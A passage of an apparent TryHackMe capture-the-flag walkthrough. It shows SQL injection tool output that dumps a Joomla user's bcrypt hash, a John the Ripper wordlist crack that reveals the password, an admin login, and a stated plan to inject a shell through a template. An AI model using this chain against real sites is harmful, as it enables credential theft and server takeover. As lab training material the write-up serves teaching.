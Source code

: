 ```bash
  .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

—> We got the hashed Password: ‘$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm’

and username: ‘jonah’

- Dehash the password with John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt test.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)     
1g 0:00:10:15 DONE (2024-06-27 19:26) 0.001623g/s 76.04p/s 76.04c/s 76.04C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- Back to the page Joomla! to login with the credentials we found.

![Untitled 5](https://github.com/user-attachments/assets/572840a8-d1ad-452b-afce-243dee41235b)

—> Success! we are in the main menu Joomla!

- Now we will research around the website to find if it has the vuln we can exploit to get initial access server.
- We found in the site Templates that we can manipulate template Protostar to inject the shell into the site.

![Untitled 6](https://github.com/user-attachments/assets/98b7e315-c85c-451f-ac52-ca37de507068)
